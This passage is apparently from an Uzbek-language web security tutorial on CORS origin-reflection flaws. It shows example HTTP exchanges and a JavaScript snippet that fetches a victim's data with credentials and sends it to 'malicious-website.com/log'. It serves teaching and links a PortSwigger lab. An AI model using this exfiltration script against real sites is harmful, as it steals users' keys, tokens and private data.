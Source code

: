 Buning usullaridan biri soʻrovlardan `Origin` headerini oʻqish va soʻrovning kelib chiqishiga ruxsat berilganligini bildiruvchi javob headerini kiritishdir. Masalan, quyidagi websayt so'roviga qarang :

```http
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://malicious-website.com
Cookie: sessionid=...
```

va u mana bunday javob qaytaradi:

```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://malicious-website.com
Access-Control-Allow-Credentials: true
...
```

Bu headerlardan shuni bilish mumkinki, [https://malicious-website.com](https://malicious-website.com) web saytga ruxsat olingan va cross-origin so'rovlarda cookie saqlanadi (`Access-Control-Allow-Credentials: true`) va u faqat ushbu sessiyada ishlashini ta'minlaydi.

Chunki web sayt o'zboshimchalik bilan domenlarga `Access-Control-Allow-Origin`ni header ga qo'shib jo'natmoqda, bu esa har qanday domen orqali zaif web saytning resurslariga kirish mumkin. Agar responseda har qanday API key yoki CSRF token bo'lsa siz uni skript yozib olishingiz mumkin. Masalan:

```javascript
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
   location='//malicious-website.com/log?key='+this.responseText;
};
```

:::caution **Lab**
 [Boshlang'ich orign reflection bilan CORS zaifligi ≫](https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack)
:::

## Origin headerlarni tahlil qilinishidagi xatolar <a href="#origin-header-larni-tahlil-qilinishidagi-xatolar" id="origin-header-larni-tahlil-qilinishidagi-xatolar"></a>

Ba'zi web saytlarda ko'plab originlardan foydalanadi va ular whitelistda saqlanadi. Qachonki CORS request kelsa, u white listdagi domen bilan solishtirib ko'radi. Agar origin white listda bo'lsa responseda `Access-Control-Allow-Origin` headerini qo'shib jo'natadi. Misol uchun, web sayt mana bunday request qabul qildi:

```http
GET /data HTTP/1.1
Host: normal-website.com
...
Origin: https://innocent-website.com
```
